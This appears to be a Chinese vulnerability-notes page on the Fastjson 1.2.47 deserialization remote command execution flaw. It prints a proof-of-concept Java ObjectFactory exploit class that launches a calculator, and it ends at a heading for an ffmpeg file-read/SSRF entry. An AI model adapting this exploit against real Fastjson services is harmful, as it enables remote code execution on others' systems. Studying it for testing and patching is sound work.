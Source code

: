 





# **[Fastjson 1.2.47 远程命令执行漏洞](https://vulhub.org/#/environments/fastjson/1.2.47-rce/)**

## 什么是Fastjson ：

> Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。


## **[漏洞利用POC](https://github.com/jas502n/fastjson-RCE)**

```
javac Exploit.java


import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void main(String[] args) {
        exec("123");
    }
}
```

# **[ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）]()**
